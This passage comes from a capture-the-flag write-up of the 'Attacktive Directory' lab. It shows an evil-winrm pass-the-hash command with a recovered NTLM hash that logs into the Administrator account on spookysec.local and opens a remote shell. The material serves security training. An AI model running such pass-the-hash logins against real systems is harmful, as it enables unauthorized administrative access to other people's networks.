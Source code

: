 ![screenshot17](../assets/images/attacktive_directory/screenshot17.png)

Option to use a hash: **-H**

---

### TASK 8: Flag Submission Panel 

### [ svc-admin ]

We can use the hash that we found earlier to log into the **Administrator** account with evil-winrm, using the pass-the-hash technique. evil-winrm will then spawn a shell for us, allowing us to explore the machine.

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

![screenshot18](../assets/images/attacktive_directory/screenshot18.png)

And we're in! Since we are in the Administrator account, we have free access into any of the other users' directories. 
